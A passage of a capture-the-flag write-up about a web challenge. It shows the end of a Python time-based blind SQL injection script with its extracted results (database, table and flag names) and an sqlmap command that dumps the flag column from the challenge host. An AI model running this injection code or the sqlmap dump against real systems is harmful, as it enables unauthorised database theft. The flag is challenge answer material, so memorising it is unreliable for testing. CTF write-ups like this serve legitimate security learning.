 ```python
            output = session.post(url, data=data, allow_redirects=False)
            time_finished = time.time()
            time_taken = time_finished - time_started
            if time_taken < 5:
                pass
            elif char == "%":
                pass
            else:
                phew += char
                break

if __name__ == "__main__":
    #bf_mysql()
    bf_db()
    #bf_table()

# [+] Mysql name: 10.11.4-MariaDB
# [+] Database name: mice_book
# [+] Table name: flags
# [+] Flag: flag{3_bl1nd_m1ce_s33_h0w_th3y_run}
```

The server is a bit overloaded at the moment of writting this so running the script will give likely false result atm

But when I ran it when the server was ok I got:

```
[+] Mysql name: 10.11.4-MariaDB
[+] Database name: mice_book
[+] Table name: ags #original
[+] Table name: flags #guessed
```

For some reason the table name wasn't complete don't blame me I suck at scripting and web

But it's actually guessable `flags`

Now this is where the issue I had was

I couldn't get the flag from the table 

So I switched over to sqlmap 😭

Passing the known values and dumping the flag (this way more better tbh 🙂)

Since the table name is  `flags` then we can also guess the column name to be `flag` 

I did this assumption cause running sqlmap was pretty slow

But it turned out right lol
![image](https://github.com/markuched13/CTFLearn/assets/113513376/492064cc-2892-44a8-ad5f-ce4d533be054)

```
Payload: sqlmap --url https://ctftogo-3-mice.chals.io/ --forms -D mice_book -T flags -C flag --dump
```
